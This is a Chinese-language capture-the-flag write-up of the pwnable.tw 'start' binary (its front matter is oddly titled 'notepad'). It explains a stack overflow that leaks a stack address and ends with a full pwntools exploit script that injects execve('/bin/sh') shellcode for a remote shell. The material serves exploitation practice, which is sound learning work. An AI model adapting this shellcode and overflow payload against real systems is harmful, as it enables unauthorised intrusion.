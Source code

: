 ```yaml
---
title: notepad
date: 2019-10-08
categories:
- pwnable_tw
tags: stack
---
```


# start

## 漏洞

栈溢出。

## 思路

这个程序用了两个系统调用，系统调用号分别是04和03，`write`和`read`。  

这个栈的结构比较简单，没有`ebp`，`retn`对应的是`exit`，设`retn`对应栈`+4`的位置为A，A里面的内容是这个位置的栈地址。  
> 这里需要注意的是，虽然这个程序没有开PIE，但是ASLR是启动了的。也就是堆栈地址随机化。
先用栈溢出到开始代码段构造`write`的地方，这个时候的`esp`刚好指向A，于是就可以打印出栈地址。  
然后只要把shellcode放到栈上就好了。  
> 第一次打印地址的时候注意不要用`sendline`，会覆盖掉地址内容。

## exp

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']
context(arch = 'i386',os = 'linux')

debug = 1
if debug:
    sh = remote('chall.pwnable.tw',10000)
else:
    sh = process('./start')

mov_ecx_esp = 0x8048087
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
#gdb.attach(sh)
payload = 'A' * 0x14 + p32(mov_ecx_esp)
sh.sendafter(':',payload)

esp_addr = u32(sh.recv(4))
success(hex(esp_addr))

payload = 'A' * 0x14 + p32(esp_addr + 0x14) + shellcode
sh.sendline(payload)

sh.interactive()
sh.close()

```
